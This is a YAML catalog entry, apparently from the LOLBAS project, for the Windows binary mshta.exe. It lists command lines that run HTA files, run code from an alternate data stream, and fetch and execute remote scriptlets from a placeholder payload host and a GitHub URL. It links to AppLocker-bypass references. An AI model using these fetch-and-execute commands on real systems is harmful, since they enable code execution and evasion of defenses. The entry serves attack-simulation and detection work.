 ```yaml
---
Name: mshta.exe
Description: Execute, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embeded JavaScript, JScript, or VBScript.
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    Description: Executes VBScript supplied as a command line argument.
  - Command: mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embeded JavaScript, JScript, or VBScript.
Full Path:
  - C:\Windows\System32\mshta.exe
  - C:\Windows\SysWOW64\mshta.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md
  - https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Notes: Thanks to Casey Smith - @subtee, Oddvar Moe - @oddvarmoe
---
```

